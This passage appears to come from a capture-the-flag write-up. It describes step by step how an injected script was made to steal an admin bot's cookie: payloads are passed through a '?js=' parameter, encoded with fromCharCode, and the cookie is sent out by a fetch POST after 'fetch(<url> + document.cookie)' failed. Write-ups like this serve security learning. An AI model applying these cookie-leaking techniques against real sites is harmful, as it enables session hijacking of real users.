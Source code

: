 ![Inject](./images/ng-payload.png)

Again, let's update the HTML page we are serving to read payloads from a final search parameter `?js=` which can generate the proper `fromCharCode` array for us.

![Inject](./images/js-eval.png)

Finally, let's try to leak the user's cookie using a fetch request. For whatever reason `fetch(<url> + document.cookie)` had issues being run by the bot, but sending a `POST` request with the cookie in the body did work.

![Inject](./images/js-fetch.png)
